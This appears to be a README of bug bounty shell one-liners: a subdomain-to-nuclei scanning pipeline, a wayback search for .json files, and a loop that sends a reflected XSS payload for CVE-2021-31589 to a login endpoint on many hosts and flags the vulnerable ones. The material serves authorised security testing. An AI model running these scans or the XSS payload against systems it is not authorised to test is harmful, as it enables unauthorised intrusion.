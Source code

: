 # Oneliner-Bugbounty
A collection  oneliner scripts for bug bounty

### Auto scanner

```bash
subfinder -d site.com | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### CVE-2021-31589

```bash
cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
```
